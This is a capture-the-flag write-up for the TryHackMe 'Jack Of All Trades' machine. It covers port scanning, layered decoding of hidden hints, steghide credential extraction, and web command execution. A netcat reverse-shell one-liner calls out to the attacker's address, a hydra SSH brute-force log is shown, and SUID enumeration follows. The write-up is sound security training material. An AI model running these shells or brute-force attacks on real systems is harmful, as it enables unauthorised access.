 # TryHackMe-Jack Of All Trades

>Abdullah Rizwan | 08:17 PM , 1st November 2020

## NMAP

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-01 20:18 PKT
Nmap scan report for 10.10.103.231
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.76 seconds

```

## PORT 22

Noramlly this is default port 22 but in this case it is http if you visit it on firefox it has restricted default ports like ssh , ftp and etc so inorder to enable we have to go to browser's `about:config` and a property to override theses settings

https://support.mozilla.org/en-US/questions/1083282

<img src="https://imgur.com/rzMq2ks.png"/>


<img src="https://imgur.com/s6O5rAh.png"/>


And we can access the page now 

<img src="https://imgur.com/LdntB1r.png"/>

By looking at the source code

<img src="https://imgur.com/xb0DMC4.png"/>

We can find two things `/recovery.php` and a base64 encoded text


On decoding the text

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

user name john maybe


Download those images

<img src="https://imgur.com/B8Yflc3.png"/>


<img src="https://imgur.com/mFfLM5F.png"/>

By looking at the source code and login with `Jack` and `u?WtKSraq`

```
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=
```
This is base32 encoded text on decoding it 

<img src="https://imgur.com/PNwkLcw.png"/>

```
45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246
```

Now this is hex text on decoding it 

<img src="https://imgur.com/hInfNdO.png"/>

```
Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr! V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F
```

This is ROT 13 (Shift Cipher)

<img src="https://imgur.com/WmKeBxZ.png"/>

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

On visiting the link

<img src="https://imgur.com/WPPtesd.png"/>

Now its says about `Stegosauria` , now we recently downloaded two images on our machines ,so that dinosaur one looks interesting on using `steg hide --extract -sf [image.jpg]`

<img src="https://imgur.com/D8Dp9o2.png"/>

<img src="https://imgur.com/HL9DDof.png"/>

So this a rabbithole , lets steghide on different image , the second `jackinthebox.jpg` also didn't worked but when grabbed the `header.jpg` it worked

<img src="https://imgur.com/SNAzsSc.png"/>

```
 Username: jackinthebox
 Password: TplFxiSHjY 
```
However this is not the credentials for SSH 

<img src="https://imgur.com/vYObw7r.png"/>

Now this is a RCE execution we can run a reverse shell here

```
nc -e /bin/sh 10.14.3.143 4444

```
You can run any reverse shell you want but `netcat` one worked so lets roll with it

<img src="https://imgur.com/bXY0z0b.png"/>

Now we are `www-data` can't run really do much so lets try to elevate our privileges,so lets enumerate the machine , upload `linepeas`

<img src="https://imgur.com/1bwVyii.png"/>

Linpeas didn't find anyhting useful so there is a file in `~` home directory `jacks_password_list`

<img src="https://imgur.com/j95luIi.png"/>

## Hydra

Now we need to specify the port number becasue it's not on port 22

```
hydra -s 80 -l jack -P password_list.txt ssh://10.10.103.231 -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-01 21:49:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://10.10.103.231:80/
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "*hclqAzj+2GC+=0K" - 1 of 24 [child 0] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "eN<A@n^zI?FE$I5," - 2 of 24 [child 1] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "X<(@zo2XrEN)#MGC" - 3 of 24 [child 2] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass ",,aE1K,nW3Os,afb" - 4 of 24 [child 3] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "ITMJpGGIqg1jn?>@" - 5 of 24 [child 4] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "0HguX{,fgXPE;8yF" - 6 of 24 [child 5] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "sjRUb4*@pz<*ZITu" - 7 of 24 [child 6] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "[8V7o^gl(Gjt5[WB" - 8 of 24 [child 7] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "yTq0jI$d}Ka<T}PD" - 9 of 24 [child 8] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "Sc.[[2pL<>e)vC4}" - 10 of 24 [child 9] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "9;}#q*,A4wd{<X.T" - 11 of 24 [child 10] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "M41nrFt#PcV=(3%p" - 12 of 24 [child 11] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "GZx.t)H$&awU;SO<" - 13 of 24 [child 12] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass ".MVettz]a;&Z;cAC" - 14 of 24 [child 13] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "2fh%i9Pr5YiYIf51" - 15 of 24 [child 14] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "TDF@mdEd3ZQ(]hBO" - 16 of 24 [child 15] (0/0)
[ATTEMPT] target 10.10.103.231 - login "jack" - pass "v]XBmwAk8vk5t3EF" - 17 of 25 [child 13] (0/1)
[80][ssh] host: 10.10.103.231   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-01 21:49:54

```

<img src="https://imgur.com/aT4gtfl.png"/>

Using netcat to get that image on our local machine

<img src="https://imgur.com/DgS4vMh.png"/>

<img src="https://imgur.com/agCAuvB.png"/>

This is our user flag

Check for SUID 

```

jack@jack-of-all-trades:~$ find / -perm /4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
jack@jack-of-all-trades:~$ 
```

<img src="https://imgur.com/xWUCjwT.png"/>

